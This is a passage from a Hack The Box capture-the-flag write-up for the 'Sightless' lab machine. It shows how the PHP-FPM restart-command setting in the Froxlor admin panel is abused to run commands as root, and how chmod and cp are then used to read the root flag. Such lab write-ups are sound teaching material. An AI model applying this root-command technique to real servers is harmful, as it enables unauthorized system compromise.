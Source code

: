 We authenticate successfully.

To exploit the service.
1. Navigate to `http://127.0.0.1:8090/admin_phpsettings.php?page=fpmdaemons`
2. Change the `PHP-FPM restart command` to `touch /home/michael/root.txt` 
3. Then go to `http://127.0.0.1:8090/admin_settings.php?page=overview&part=froxlorvhost` and disable ,then enable `PHP-FPM` .This will execute the restart command.

```bash
michael@sightless:~$ ls -l
total 4
-rw-r--r-- 1 root root     0 Dec 30 22:15 root.txt
-rw-r----- 1 root michael 33 Dec 30 20:57 user.txt
michael@sightless:~$ 

```

From the output we see that the service is executing the commands as root.  
To get the root flag, we can change the restart command to `chmod 777 /root/root.txt`  this will  give us access to the file then we can use `cp /root/root.txt /home/michael/root.txt` which will copy the contents to the home directory.
![](../assets/img/HTB/Easy/sightless/sightless11.png)
![](../assets/img/HTB/Easy/sightless/sightless12.png)
